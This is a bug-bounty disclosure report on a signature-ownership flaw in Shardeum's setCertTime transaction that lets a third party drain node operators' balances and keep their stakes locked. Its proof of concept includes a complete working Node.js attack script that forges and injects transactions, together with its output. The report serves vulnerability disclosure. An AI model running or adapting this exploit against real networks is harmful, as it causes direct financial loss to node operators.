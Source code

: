 # 33750 - \[BC - Critical] Abusing setCertTime Transactions to drain node ...

Submitted on Jul 28th 2024 at 19:37:22 UTC by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33750

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:

* Direct loss of funds

## Description

## Description

In shardeum there's a mechnism that can extends the expiration date of a stake certificate by the node that is belong to the particular staking. Such transaction is considered internal tx type 5, according to enum ( see ref.1) Athough shardeum check the validity (see ref.2) of the signature, its failure to check the sign owner of the transaction is the same as nominated node's public key let attacker to be able to extends the stake certification on behalf of the victim node. Since shardeum deduct ( see ref.3) transaction cost from node operator account for transaction. The third party can drain the fund. Also unstaking is not possible (see ref.4) before the stake certificate expired, thus, attacker can renew stake certificate of aparitcular node indefintely to keep the stakes locked.

References:

1. [enum](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/shardeum/shardeumTypes.ts#L95)
2. [validity](../Shardeum%20Core/\(https:/github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/tx/setCertTime.ts#L86-L111\))
3. [deduct](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/tx/setCertTime.ts#L264-L272)
4. [no possible](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/index.ts#L3747-L3754)

## Proof of Concept

* Launch a network of legit nodes
* Please stake them
* Once you stake a node, wait for it to go active
* Node has to be staked, (Warning: this will not work on node that can be active without staking) for some reason the first few node in shardeum go active without staking. Please launch more node than minNode is set in the config, the subsequent node will require staking.
* Grab the public key of the staked node that is in the active list you want to attack its certificate
* Create an empty node project for our attack script
* `mkdir attack`
* `cd attack`
* `npm init -y`
* `npm install axios @shardus/crypto-utils`
* create a file and name `attack.js` and copy paste the source code below
* execute below script `node attack.js [insert victim public key]`,

(Example: `node attack.js b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e`)

```javascript
const axios = require ('axios');
const crypto = require('@shardus/crypto-utils')

crypto.init("69fa4195670576c0160d660c3be36556ff8d504725be8a59b5a96509e0c994bc")

const { publicKey, secretKey  } = crypto.generateKeypair()

const target = process.argv[2].replace('0x', '')

const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms))


const main = async  () => {
    console.log("Grabbing Nodelist ....");
    const res = await axios.get('http://0.0.0.0:4000/nodelist')
    let url = null
    const nodelist = res.data.nodeList
    const randomNode = nodelist[Math.floor(Math.random() * nodelist.length)]

    console.log("Finding victim node in active list ....");
    for(const node of nodelist) {
        if(node.publicKey === target) {
            url = `http://${node.ip}:${node.port}/account/${target}`
        }
    }

    if(!url) throw new ("Victim node is not in active yet")

    const res2 = await axios.get(url)


    const setCertTimeTx = {
        isInternalTx: true,
        internalTXType: 5,
        nominee: "",
        nominator: "",
        duration: 19, 
        timestamp: Date.now() + 1000,
    }


    setCertTimeTx.nominator = res2.data.account.nominator
    setCertTimeTx.nominee = target


    const nominator = setCertTimeTx.nominator.replace('0x', '').padEnd(64, '0')

    const before = await axios.get(`http://${randomNode.ip}:${randomNode.port}/account/${nominator}`)

    console.log("Balance and certExp before attack --------------------------------------")
    console.log(before.data);
    

    console.log("Constructing InternalTx setCertTime: ", setCertTimeTx)


    crypto.signObj(setCertTimeTx, secretKey, publicKey)
    console.log("Signing InternalTx setCertTime: ", setCertTimeTx)

    console.log("Firing InternalTx setCertTime ....")
    const res3 = await axios.post(`http://${randomNode.ip}:${randomNode.port}/inject`, setCertTimeTx)

    if(!res3.data.success) throw new Error(res3.data.reason)

    console.log("Waiting 10 sec for transaction to be finalized");
    await sleep(10000)

    const after =await axios.get(`http://${randomNode.ip}:${randomNode.port}/account/${nominator}`)
    console.log("Balance and certExp after attack --------------------------------------")
    console.log(after.data);


}

main();
```

* You can observe the balance of nominator / node operator account's balance being deducted 0.01 SHM per each tx and certExp is kept being updated to the future.

Example output -

```
Grabbing Nodelist ....
Finding victim node in active list ....
Balance and certExp before attack --------------------------------------
{
  account: {
    balance: '195700000000000000000',
    codeHash: '0xc5d2460186f7233c927e7db2dcc703c0e500b653ca82273b7bfad8045d85a470',
    nonce: '1',
    operatorAccountInfo: {
      certExp: 1722164816023,
      nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
      operatorStats: [Object],
      stake: [Object]
    },
    storageRoot: '0x56e81f171bcc55a6ff8345e692c0f86e5b48e01b996cadc001622fb5e363b421'
  }
}
Constructing InternalTx setCertTime:  {
  isInternalTx: true,
  internalTXType: 5,
  nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
  nominator: '0xd89f3526ae6f471277d68ad51b6bb1c646f49e0a',
  duration: 19,
  timestamp: 1722163476052
}
Signing InternalTx setCertTime:  {
  isInternalTx: true,
  internalTXType: 5,
  nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
  nominator: '0xd89f3526ae6f471277d68ad51b6bb1c646f49e0a',
  duration: 19,
  timestamp: 1722163476052,
  sign: {
    owner: 'be08c19a5bfd78484e318282a7d0c731d5572604e543aa25fb7f84d813a5db63',
    sig: '782052921152bad7d81850ee4683e5e68b5efd65fd3275db057f554241586ece42bfb67dc3c0b99e396320f21fc4e257d3615630721eb75c4238cdc1c3c7020e263d3aaae89a2a5949f6367d33efab75f8a83d4d99617d5fdcc09b028181881e'
  }
}
Firing InternalTx setCertTime ....
Waiting 10 sec for transaction to be finalized
Balance and certExp after attack --------------------------------------
{
  account: {
    balance: '195690000000000000000',
    codeHash: '0xc5d2460186f7233c927e7db2dcc703c0e500b653ca82273b7bfad8045d85a470',
    nonce: '1',
    operatorAccountInfo: {
      certExp: 1722165276052,
      nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
      operatorStats: [Object],
      stake: [Object]
    },
    storageRoot: '0x56e81f171bcc55a6ff8345e692c0f86e5b48e01b996cadc001622fb5e363b421'
  }
}
```

* Observe operator account's balance is drained 0.01 SHM per attack and cerExp is updated per attack. This can be run in loop.

## Impact

As stated above, this is a direct loss of fund for node operator and blocking the unstaking of a node. Attacker can modify this script to be in loop indefinity to drain the operator account and lock the unstaking forever. This can be targeted to single operator or all the operator in the network simultaneously.
